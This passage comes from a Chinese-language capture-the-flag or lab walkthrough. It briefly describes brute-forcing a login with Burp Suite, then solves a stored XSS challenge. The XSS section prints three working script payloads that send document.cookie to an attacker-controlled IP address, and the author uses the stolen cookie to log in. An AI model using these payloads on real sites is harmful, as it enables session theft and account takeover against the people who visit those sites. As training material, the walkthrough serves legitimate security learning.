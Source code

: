 ![image.png](https://img.ghostliner.top/tPHEQr.png)

输入密码和验证码，bp 抓包设置 payload

![image.png](https://img.ghostliner.top/VWl3Nm.png)

爆破，获取到 key

![image.png](https://img.ghostliner.top/irQa4E.png)

## 17. XSS（一）

发现提交内容框，尝试 XSS

![image.png](https://img.ghostliner.top/yNbEiu.png)

成功

![image.png](https://img.ghostliner.top/TQWlgT.png)

存在 XSS 注入，添加远程访问代码

```html
<!-- 方法1 -->
<script>
  document.write(
    '<img src="http://192.168.163.134/?' + document.cookie + '"/>'
  );
</script>
<!-- 方法2 -->
<script>
  var img = new Image();
  img.src = "http://192.168.163.134/?" + document.cookie;
</script>
<!-- 方法3，不推荐 -->
<script>
  document.location = "http://192.168.163.134/?" + document.cookie;
</script>
```

![image.png](https://img.ghostliner.top/0CItjv.png)

日志中发现 cookie

![image.png](https://img.ghostliner.top/PGISna.png)

填入后登录成功，获取到 key

![image.png](https://img.ghostliner.top/JVEHHY.png)

## 18. XSS（二）

![image.png](https://img.ghostliner.top/BqzhJp.png)
